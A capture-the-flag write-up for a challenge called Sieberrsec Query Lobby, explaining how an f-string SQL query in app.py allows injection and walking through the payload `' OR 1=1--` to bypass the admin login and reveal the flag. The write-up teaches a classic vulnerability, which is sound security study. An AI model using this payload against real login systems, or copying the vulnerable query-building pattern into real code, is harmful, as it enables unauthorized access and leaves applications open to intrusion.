 # Sieberrsec CTF 5.0 - Sieberrsec Query Lobby

This is a very simple SQL Injection challenge. Our goal is to log in as admin in order to get the flag.

SQL is a language used for database management. 

In app.py, there is a SQL injection vulnerability: 
- This occurs because our input (`username` and `password`) are directly inserted in our query.

```py
with sqlite3.connect('database.db') as conn:
    cur = conn.cursor()
    query = f"SELECT username FROM users WHERE username='{username}' AND password='{password}'"
    
    try:
        cur.execute(query)
        found = cur.fetchone()
    except (sqlite3.Error,sqlite3.Warning) as e:
        return f'Login unsuccessful. Error attained: {e}', query
    except:
        return f'Login unsuccessful. Error attained.', query
```

What happens if we input our username as `admin` and our password as `'` (a single quote)?

```sql
SELECT username FROM users WHERE username='admin' AND password='''

-- > output: Login unsuccessful. Error attained: unrecognized token: "'''"
```

This is due to the syntax error of having `'''`. However, more importantly, it shows that our input can be interpreted as part of the SQL command. 

Thus, we should begin our `password` input with a single quote `'` to close the `password=''` string. Now, behind it, we can inject our own commands.

```sql
SELECT username FROM users WHERE username='admin' AND password='' <we can input our own sql commands here>
```

Since our goal is to simply bypass the password chat, let password be `' OR 1=1`.
- This means the query is checking whether admin's password == NULL or 1=1. Since 1 is always equal to 1 (aka it is always true), the query condition always returns True.

```sql
SELECT username FROM users WHERE username='admin' AND password='' OR 1=1'

-- > output: Login unsuccessful. Error attained: unrecognized token: "'"
```

However, we still get an error. This is referring to the syntax error of the final single quote `'` at the very end of the query. Let's add a SQL comment `--` at the end of our payload to remove the ending single quote (as everything after the comment will be ignored)

```sql
SELECT username FROM users WHERE username='admin' AND password='' OR 1=1--'

-- > output: Welcome back admin, here is the flag: sctf{w41+_h0w_d1_y0u_g3t_1n}

```

TL;DR Input your username as `admin` and password as `' OR 1=1--`.
